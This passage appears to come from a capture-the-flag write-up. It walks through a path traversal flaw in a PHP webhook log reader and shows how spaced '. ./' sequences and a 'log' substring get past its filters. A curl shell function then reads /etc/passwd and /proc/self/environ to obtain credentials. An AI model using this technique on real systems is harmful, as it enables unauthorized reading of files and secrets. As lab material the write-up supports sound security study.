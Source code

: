 ~~~php

$logPath = "/logs/{$webhook_find->name}/";

switch($this->data->action) {
  // ...
  case "read":
    $logName = $this->data->log_name;

    if(preg_match("/\.\.\//", $logName)) {
      return $this->response(["status" => "error", "message" => "This log does not exist"]);
    }
    $logName = str_replace(' ', '', $logName);

    if(stripos($logName, "log") === false) {
      return $this->response(["status" => "error", "message" => "This log does not exist"]);
    }
    if(!file_exists($logPath.$logName)) {
      return $this->response(["status" => "error", "message" => "This log does not exist"]);
    }
    $logContent = file_get_contents($logPath.$logName);
    return $this->response(["status" => "success", "message" => $logContent]);
}
~~~
{:file="app/controllers/LogsController.php" .nolineno}

To reach this functionality, an API key in the **X-Api-Key** header must be provided as specified in `app/helpers/Api.php`{:.filepath}. To pass the `stripos` call, the payload must contain the string "log" in the name of an existing directory. Finally, to pass the `file_exists` check, there should be at least one log stored by the webhook since `/logs/{UUID}/` is created after the first log. We created a shell function to simplify the reading of files.

~~~php
public function apiKeyAuth()
{
  $this->api_key = "22892e36-1770-11ee-be56-0242ac120002";

  if(!isset($_SERVER["HTTP_X_API_KEY"]) || empty($_SERVER["HTTP_X_API_KEY"]) || $_SERVER["HTTP_X_API_KEY"] != $this->api_key)
  {
    return $this->response(["status" => "error", "message" => "Unauthorized"], 403);
  }
}
~~~
{:file="app/helpers/Api.php" .nolineno}

~~~zsh
uuid="fda96d32-e8c8-4301-8fb3-c821a316cf77"
api_key="22892e36-1770-11ee-be56-0242ac120002"

# write a log to create $logPath directory
curl "$webhooks_api/webhooks/$uuid" -H "Content-Type: application/json" \
  -d '{"log_name":"x","log_content":"..."}'

# Shell function to read files 
cybermonday_api_read_file() {
  curl -s "$webhooks_api/webhooks/$uuid/logs" \
    -H "X-Api-Key: $api_key" -H "Content-Type: application/json" \
    -d '{"action":"read","log_name":". ./. ./logs/. ./'"${1}"'"}' |
      jq -r '.message'
}

# Test out the function
cybermonday_api_read_file "/etc/passwd"
# Read database connection variables from environment
cybermonday_api_read_file "/proc/self/environ" | tr \\0 \\n | sort -u
~~~